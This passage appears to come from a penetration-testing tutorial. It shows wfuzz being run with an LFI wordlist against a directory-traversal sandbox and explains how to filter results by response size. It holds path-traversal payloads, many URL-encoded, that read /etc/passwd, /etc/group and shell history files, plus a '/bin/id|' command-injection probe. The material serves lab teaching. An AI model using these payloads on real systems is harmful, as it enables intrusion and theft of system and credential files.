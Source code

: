 ```bash
000000045:   200        3 L      10 W       81 Ch       "../apache/logs/error.log"
000000052:   200        3 L      10 W       81 Ch       "/../../../../../../../../bin/id|"
000000051:   200        3 L      10 W       81 Ch       "/.bashrc"
000000050:   200        3 L      10 W       81 Ch       "/.bash_profile"
000000049:   200        3 L      10 W       81 Ch       "/.bash_history"   
...
```

We can filter out the most of the erroneous output by using the `--hh` option to suppress the majority of erroneous response sizes. In this case, the average failure response sizes are `81 Ch`and `125 Ch`, so we will provide the values 81 and 125 to our `--hh` parameter next time we run it. There are times when an erroneous output is going to still be there, but this will prevent us from having hundreds of them at a time.

After filtering out errors using this technique, only relevant results will be displayed in the terminal output window when we use the `--hc` option in Wfuzz.


```bash
┌──(root💀gobots)-[17Sep2024 01:05:04]-[/etc]                                                                                                                                                               
└─# wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ                           
********************************************************                                                                                                                                                    
* Wfuzz 3.1.0 - The Web Fuzzer                         *                                                                                                                                                    
********************************************************                                                                                                                                                    
                                                                                                                                                                                                            
Target: http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ                                                                                                             
Total requests: 922                                                                                                                                                                                         
                                                                                                                                                                                                            
=====================================================================                                                                                                                                       
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================                                                                                                                                       
                                                                                                                                                                                                            
000000023:   200        22 L     34 W       1007 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                                                                                            
000000020:   200        22 L     34 W       1007 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"                                                                               
000000016:   200        22 L     34 W       1007 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"                                                                 
000000133:   200        42 L     49 W       527 Ch      "/etc/group"                                                                                                                                        
```